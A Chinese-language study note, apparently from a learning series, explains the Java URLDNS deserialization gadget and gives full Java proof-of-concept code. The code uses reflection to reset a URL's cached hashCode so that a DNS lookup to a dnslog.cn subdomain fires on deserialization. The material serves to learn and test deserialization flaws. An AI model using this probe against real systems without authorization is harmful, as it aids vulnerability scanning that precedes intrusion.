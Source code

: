 dns这个东西，懂吧不能查太多次，，，，（所以有了下面先改hashcode为其他值，再改为-1）

我们希望的是，在序列化的时候不进行查询，之后在反序列化的时候执行hashcode进行查询，so在序列化的时候，put时走的应该是直接return hashcode，而不是计算hashCode后返回，所以要先写个其他的值，put之后，再将其改为-1，exp如下：

(为了方便知道是序列化的时候查询的还是反序列化的时候查询的dns，可以直接断点。)

还有个小技巧，可以不用一直换dnslog，在前面加个子域名就行：

```java
package com.yutao.day7;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.net.URLStreamHandler;
import java.util.HashMap;

public class urldnsexp {
    public static void main(String[] args) throws Exception {
        HashMap<URL, String> obj = new HashMap<URL, String>();
        String url = "http://1.l2cbwo.dnslog.cn";
        URL url1 = new URL(url);
        Class clazz = Class.forName("java.net.URL");
        Field field = null;
        field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url1, 123123);//加这句是为了防止干扰，，dns查多了就不回显了
        obj.put(url1, "qwer");
        field.set(url1, -1);

        //序列化
        FileOutputStream fo = new FileOutputStream("urldns.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fo);
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
        System.out.println("ok");
        FileInputStream fi = new FileInputStream("urldns.ser");
        ObjectInputStream ois = new ObjectInputStream(fi);
        ois.readObject();
        ois.close();
    }
}
```

